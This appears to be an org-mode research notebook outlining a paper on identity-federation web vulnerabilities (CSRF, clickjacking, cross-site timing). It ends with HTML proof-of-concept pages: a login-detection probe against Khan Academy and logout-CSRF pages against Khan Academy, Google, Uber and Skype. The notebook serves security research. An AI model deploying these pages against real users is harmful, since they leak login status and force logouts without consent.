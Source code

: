 * Paper Outline
** Title
- Summary of Abstract
** Abstract
1/2 page
- Summary of Intro
** Introduction
2-3 pages
- Summary of paper
- Motivation
- Related Work
- 
** Motivation(Pitch)
- Why is it important
** Related Work
** Method and Technique
- What is FIM
- How we modeled it alloy
- Implementation of experiment
- Conclusion
- Future Outlook
* Experiment
** Generic
*** Vulnerabilities Check
**** CSRF
**** Click jacking
**** cross site timing attack
- Mitigate atacks using corp extension. 
how: 
- fix one website, then based on e
*** Mitigation tests
- using corp extension
** 

* Mitigation

* TODO 
- Login with google websites
- find a vulnerable endpoint
- vlabs end points

* Robin Linus
- all the websits which use FIM, are vulnerable to click jacking which they are
  on the robin linus site.



* Attack 1 : Cross-Site Timing Attack
- Use with Khanacademy: if logged in logo will show up else not;.
#+BEGIN_SRC html :tangle khanacademychecklogin.html
<html>
  <head><title>Khanacademy Check Login Attack</title></head>
  <body>
    <img src="https://www.khanacademy.org/login?continue=%2Ffavicon.ico"/>
  </body>
  
</html>
#+END_SRC
* Attack Khanacademy Logout:
#+BEGIN_SRC html :tangle khanacademylogout.html
<html>
<head><title>Khanacademy Logout Attack</title></head>
<body>
<img src="https://khanacademy.org/logout?contine=/"/>
</body>
</html>
#+END_SRC
* Attack Google Logout
#+BEGIN_SRC html :tangle googlelogout.html
<html>
<head><title>Google Logout Attack</title></head>
<body>
<img src="https://accounts.google.com/logout"/>
</body>
</html>
#+END_SRC
* Uber logout
#+BEGIN_SRC html :tangle  uberlogout.html
<html>
<head><title>Attacker</title></head>
<body>
<img src="https://riders.uber.com/logout"/>
</body>
</html>
#+END_SRC
* Skype logout
#+BEGIN_SRC html :tangle skypelogout.html
<html>
<head><title>Attacker</title></head>
<body>
<img src="https://secure.skype.com/portal/logout"/>
</body>
</html>
#+END_SRC
